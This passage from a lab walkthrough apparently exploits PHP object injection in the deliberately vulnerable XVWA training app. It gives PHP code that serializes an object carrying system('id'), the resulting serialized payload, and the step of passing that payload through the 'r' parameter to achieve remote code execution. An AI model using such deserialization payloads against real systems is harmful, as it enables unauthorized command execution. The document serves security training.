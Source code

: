 Check the PHP manual for unserialize:

Notice the big red warning message. It's a clear warning to the developers about the RCE threat if they pass user-controlled input to the
unserialize function.

Step 7: Check the source code of the PHP Object Injection page from Github.
```bash
URL: https://github.com/s4n7h0/xvwa/blob/master/vulnerabilities/php_object_injection/home.php
```

Notice the relevant code snippet shown in the above image. If the request contains the parameter **r**, its value is unserialized. Also, notice the call to **eval** - the inject parameter is directly passed to **eval**, which is an excellent opportunity for RCE.

Step 8: Exploit the insecure PHP deserialization vulnerability.

Save the following code snippet as object.php

```php
<?php
class PHPObjectInjection {
    public $inject = "system('id');";
}

$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>

```


Notice the above code snippet sets the inject parameter to system('id'), which would run the id command on the webserver.

Serialize the object:

Command:
```bash
php object.php
```



Serialized payload:
```bash
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
```

- Assign the generated value in the **r** parameter in the URL:


Notice the results of the id command are shown on the page.

With that, we successfully exploited the insecure deserialization issue to run arbitrary commands.

Step 9: Check the list of running processes.

Now that we have code execution on the target server, let's check the list of running processes:

Save the following code snippet as object.php
